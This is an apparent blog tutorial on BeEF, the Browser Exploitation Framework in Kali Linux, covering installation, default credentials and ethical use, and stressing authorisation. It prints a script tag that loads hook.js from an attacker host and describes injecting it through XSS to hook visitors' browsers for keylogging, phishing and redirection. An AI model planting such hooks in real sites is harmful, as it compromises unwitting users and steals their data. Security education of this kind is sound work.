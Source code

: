 ```yaml
---
title: Exploring BeEF A Powerful Kali Linux Tool
linkTitle: BeEF
description: This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.
date: 2024-11-22T16:29:00.893Z
draft: false
tags:
   - kali tools
categories:
   - Kali linux
type: docs


author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

weight: 300
toc: true
keywords:
   - BeEF
excludeSearch: false
sidebar:
   open: true
featured_image: /images/kalilinux2.webp
url: exploring-beef-powerful-kali-linux-tool
---
```

Web browsers are essential tools for accessing the internet, but they also represent one of the most significant attack vectors for malicious activities. **BeEF (Browser Exploitation Framework)** is a specialized penetration testing tool included in Kali Linux that focuses on leveraging browser vulnerabilities to assess and improve security. This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.

---

## What is BeEF?

BeEF is an open-source security framework designed to test and exploit vulnerabilities in web browsers. It enables penetration testers and security professionals to evaluate the security posture of systems by interacting directly with browsers. Unlike traditional network-focused tools, BeEF shifts attention to client-side vulnerabilities, such as those arising from JavaScript and cross-site scripting (XSS) attacks.

### Core Features

1. **Hooking Mechanism**:
   - BeEF uses a "hook.js" script to connect to a target browser. Once hooked, the browser becomes part of a command and control (C&C) environment where the tester can execute commands and assess vulnerabilities.

2. **Extensive Exploitation Modules**:
   - Over 300 built-in modules allow for tasks like keylogging, phishing, browser redirection, and network reconnaissance.

3. **Customizable Framework**:
   - Security professionals can inject custom JavaScript code to tailor their testing efforts.

4. **Real-Time Interaction**:
   - BeEF provides real-time interaction with compromised browsers via its web-based dashboard.

---

## Installing BeEF on Kali Linux

BeEF is easy to set up and use within Kali Linux. Follow these steps:

1. **Update Your System**:

   ```bash
   sudo apt update && sudo apt upgrade
   ```

2. **Install BeEF**:

   ```bash
   sudo apt install beef-xss
   ```

3. **Start BeEF**:

   ```bash
   service beef-xss start
   ```

4. **Access the Web Interface**:
   - Open a browser and navigate to `http://127.0.0.1:3000/ui/panel`.
   - The default credentials are:
     - Username: `beef`
     - Password: `beef`

5. **Configuration**:
   - Update credentials and configure logging options via the configuration file located in the BeEF directory.

---

## Using BeEF for Ethical Penetration Testing

### 1. **Browser Hooking**

BeEF hooks browsers by embedding the `hook.js` script into a website or application. For example:

```html
<script src="http://<IP>:3000/hook.js"></script>
```

When a user visits a webpage containing this script, their browser becomes "hooked" and visible in the BeEF dashboard.

### 2. **Launching Exploitation Modules**

Once a browser is hooked, testers can:

- Execute phishing campaigns (e.g., fake Google login pages).
- Redirect browsers to malicious or test sites.
- Perform network reconnaissance from the victim’s perspective.

### 3. **XSS Attacks**

If a vulnerable website is identified, testers can inject `hook.js` via an input field or stored script, hooking multiple users who access the compromised site.

---

## Ethical Use Cases

1. **Web Application Security Testing**:
   - Identify XSS vulnerabilities and assess the potential damage of browser-based exploits.

2. **User Awareness Training**:
   - Demonstrate the risks of insecure browsing habits by simulating phishing attacks or browser exploits in controlled environments.

3. **Incident Response**:
   - Analyze browser compromises to improve organizational defenses against real-world threats.

---

## Benefits and Limitations

### Benefits

- Comprehensive assessment of client-side vulnerabilities.
- Real-time interaction with hooked browsers.
- Extensible framework suitable for diverse testing scenarios.

### Limitations

- Limited to browser-based attacks and may not assess network-level vulnerabilities.
- Requires ethical use; misuse can lead to severe legal consequences.

---

## Best Practices for Responsible Use

1. **Obtain Permission**:
   - Only use BeEF on systems or networks where you have explicit authorization.

2. **Document Actions**:
   - Maintain logs of all activities performed during penetration testing.

3. **Ensure Legal Compliance**:
   - Familiarize yourself with local and international laws governing cybersecurity practices.

4. **Use in Isolated Environments**:
   - Avoid unintended harm by conducting tests in isolated or sandboxed systems.

---

## Conclusion

BeEF is a powerful tool in the hands of ethical hackers and cybersecurity professionals, allowing them to uncover and address vulnerabilities in web browsers and web applications. By leveraging its unique capabilities, organizations can enhance their security posture and educate users about the dangers of insecure web browsing. However, its use comes with a responsibility to adhere to ethical guidelines and legal frameworks, ensuring that the tool serves its intended purpose of improving cybersecurity.

For more information and resources, visit the official [BeEF project page](https://beefproject.com) or consult detailed documentation on Kali Linux’s [tool repository](https://www.kali.org/tools/beef-xss/)【18】【20】【22】.
